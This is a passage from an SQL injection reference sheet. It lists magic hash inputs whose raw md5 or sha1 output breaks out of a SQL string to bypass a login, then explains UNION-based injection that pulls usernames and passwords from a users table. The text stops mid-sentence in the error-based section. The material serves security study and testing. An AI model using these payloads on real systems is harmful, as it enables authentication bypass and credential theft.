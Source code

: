 | Hash | Input    | Output (Raw)            |  Payload  |
| ---- | -------- | ----------------------- | --------- |
| md5  | ffifdyop | `'or'6�]��!r,��b`       | `'or'`    |
| md5  | 129581926211651571912466741651878684928 | `ÚT0Do#ßÁ'or'8` | `'or'` |
| sha1 | 3fDf     | `Q�u'='�@�[�t�- o��_-!` | `'='`     |
| sha1 | 178374   | `ÜÛ¾}_ia!8Wm'/*´Õ`      | `'/*`     |
| sha1 | 17       | `Ùp2ûjww%6\`            | `\`       |

This behavior can be abused to bypass the authentication by escaping the context.

```php
sql1 = "SELECT * FROM admin WHERE pass = '".md5("ffifdyop", true)."'";
sql1 = "SELECT * FROM admin WHERE pass = ''or'6�]��!r,��b'";
```

## UNION Based Injection

In a standard SQL query, data is retrieved from one table. The `UNION` operator allows multiple `SELECT` statements to be combined. If an application is vulnerable to SQL injection, an attacker can inject a crafted SQL query that appends a `UNION` statement to the original query.

Let's assume a vulnerable web application retrieves product details based on a product ID from a database:

```sql
SELECT product_name, product_price FROM products WHERE product_id = 'input_id';
```

An attacker could modify the `input_id` to include the data from another table like `users`.

```SQL
1' UNION SELECT username, password FROM users --
```

After submitting our payload, the query become the following SQL:

```SQL
SELECT product_name, product_price FROM products WHERE product_id = '1' UNION SELECT username, password FROM users --';
```

:warning: The 2 SELECT clauses must have the same number of columns.

## Error Based Injection

Error-Based SQL Injection is a technique that relies on the error messages returned from the database to gather information about the database structure. By manipulating the input parameters of an SQL query, an attacker can make the database generate error messages. These errors can reveal critical details about the database, such as table names, column names, and data types, which can be used to craft further attacks.

For example, on a PostgreSQL, injecting this payload in a SQL query would result in an error since the LIMIT clause is expecting a numeric value.
